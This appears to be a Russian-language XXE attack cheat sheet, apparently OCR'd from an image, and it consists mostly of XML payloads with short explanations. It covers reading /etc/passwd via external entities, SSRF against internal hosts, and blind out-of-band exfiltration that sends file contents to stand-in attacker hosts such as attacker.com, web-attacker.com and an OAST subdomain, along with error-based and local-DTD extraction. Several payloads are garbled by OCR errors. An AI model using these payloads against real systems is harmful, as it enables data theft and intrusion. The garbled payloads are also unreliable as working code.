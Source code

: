 
# 3.1. При видимой xxe
## 3.1.1. Проверка реакции на DTD-инъекции

##### Внедрение простой внутренней сущности:
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe "TEST"> ]>
<root>&xxe;</root>
```
- Если в ответе появляется TEST, DTD разрешен.

##### Попытка загрузки внешней сущности:
```
<?xml version="1.0"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://attacker.com/payload"> ]>
<root>&xxe;</root>
```
- Если сервер отправляет запрос к attacker.com, внешние сущности разрешены.

##### Использование XXE для извлечения файлов
```
	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [
		<!ENTITY xxe SYSTEM "file:///etc/passwd">
	]>
	<stockCheck>
		<productId>&xxe;</productId>
	</stockCheck>
```

##### Использование XXE для SSRF-атак
```
	<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
	<stockCheck>
		<foo>&xxe;</foo>
	</stockCheck>
```

##### Использование параметризованных внешних сущностей
```
<Pxml version="1.0" encoding="utf-8"?>
<! DOCTYPE example [
	‹!ENTITY % xxe SYSTEM "https://*free.beeceptor.com/xxe_endpoint"›
	%xxe;
]>
<example> 
</examples
```


----
# 3.2. При blind xxe
## 3.2.1. Проверка реакции на DTD-инъекции

##### Обнаружение слепого XXE с использованием внеполосных (OAST) методов

###### Пингуем
```
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe SYSTEM "http://web-attacker.com"> 
]>
<root>&xxe;</root>
```
или
```
<!DOCTYPE foo [ 
	<!ENTITY % xxe SYSTEM "http://web-attacker.com"> 
	%xxe; 
]>
```

Развиваем атаку делая полезную нагрузку у себя на сервере
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfile SYSTEM 'https://http://web-attacker.com/%file;'>">
```
- смотрим логи подключения

# Дополнительная информация

### Сущности параметров XML с CDATA
```
<!DOCTYPE foo [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % start "<![CDATA[">
  <!ENTITY % end "]]>">
  <!ENTITY % wrapper "<!ENTITY &#x25; send SYSTEM 'https://YOUR-SUBDOMAIN.oast.pro/?data=%start;%file;%end;'>">
  %wrapper;
]>
<root>%send;</root>
```
**Объяснение payload**
- `%file` — читает файл `/etc/passwd`.
- `%start` и `%end` — обрамляют данные в `CDATA`, чтобы избежать ошибок парсера из-за спецсимволов.
- `%wrapper` — создает сущность `%send`, которая отправляет содержимое файла на наш сервер через URL-параметр `data`.


### Использование слепого XXE для извлечения данных через сообщения об ошибках
```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```
- Определяет параметрическую сущность XML с именем `file`, содержащую содержимое файла `/etc/passwd`.
- Использует `error`сущность, так что ее значение оценивается путем попытки загрузить несуществующий файл, что приводит к сообщению об ошибке, содержащему имя несуществующего файла, которое является содержимым файла `/etc/passwd`.

### Преобразование локального файла DTD для повторного использования
```
<!DOCTYPE foo [ 
	<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> 
	<!ENTITY % custom_entity '
		<!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> 
		 <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
		  &#x25;eval; 
		  &#x25;error; 
	'> 
	  
	  %local_dtd; 
]>
```
1. Загрузка локального DTD-файла
2. Изменение сущности в локальном файле `custom_entity`
3. Вызываем исключение в локальном dtd файле
4. Получаем ошибку с локального dtd файла включая конф. данные


